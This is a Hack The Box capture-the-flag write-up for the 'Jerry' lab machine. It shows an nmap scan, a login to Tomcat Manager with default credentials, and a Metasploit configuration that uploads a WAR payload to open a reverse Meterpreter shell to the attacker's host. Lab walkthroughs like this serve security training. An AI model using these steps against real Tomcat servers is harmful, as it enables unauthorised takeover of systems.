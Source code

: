 Hack The Box — Jerry (Easy)

**Status**: Retired  
**OS**: Windows  
**IP**: 10.10.10.95  
**Difficulty**: 🧩 Beginner-Friendly  
**Category**: Remote Code Execution (RCE), Misconfigurations  
**Owned**: ✅ User + ✅ System (ROOT)

---

## 🚀 Recon & Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -Pn 10.10.10.95

Result:

    8080/tcp – Apache Tomcat/Coyote JSP engine 1.1

    OS Fingerprint: Windows

Apache Tomcat on port 8080 is a juicy target. Time to investigate further.
🌐 Web Exploration

Accessing http://10.10.10.95:8080 leads to the Apache Tomcat Manager Interface, but prompts for credentials.

We test default logins:

    ✅ tomcat:s3cret — Success

Logged into the Tomcat Web Application Manager.
💥 Exploitation – RCE via WAR Deployment

Tomcat’s Manager allows uploading of .WAR (Web ARchive) files. This is our RCE gateway.
🔧 Exploit Used:

exploit/multi/http/tomcat_mgr_upload

Configuration:

use exploit/multi/http/tomcat_mgr_upload
set RHOSTS 10.10.10.95
set HTTPUSERNAME tomcat
set HTTPPASSWORD s3cret
set TARGETURI /manager/html
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST YOUR_IP
set LPORT 4444
run

Boom 💣 — got a reverse shell.
🛡️ Privilege Escalation?

None needed. Apache was running as SYSTEM. We own the box instantly after shell access.
🏴 Flags

    user.txt ✅

    root.txt ✅

Bonus: Found 2-for-1.txt in the admin’s desktop — both flags combined.
